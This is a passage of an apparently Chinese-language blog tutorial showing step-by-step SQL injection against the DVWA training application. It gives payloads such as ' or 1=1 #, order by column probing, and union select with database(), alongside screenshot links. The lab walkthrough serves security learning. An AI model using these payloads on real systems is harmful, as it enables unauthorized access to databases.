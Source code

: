 ```抓包更改参数id为1′ or 1=1 # 报错： #是注释作用```

```抓包更改参数id为1 order by 2 #```

![6](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427101008.png)



![7](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427101012.png)



```抓包更改参数id为1 order by 3 #，报错：```

![8](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427101015.png)



![9](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427101018.png)



> 说明执行的SQL查询语句中只有两个字段



**3.确定显示的字段顺序**

``抓包更改参数id为1 union select 1,2 #``

![10](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427101021.png)



![11](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427101024.png)



> 可以看出有 2 个回显



**4.获取当前数据库**

```抓包更改参数id为1 union select 1,database() #```

![12](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427101031.png)



![13](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427101043.png)



>  说明当前的数据库为dvwa。

```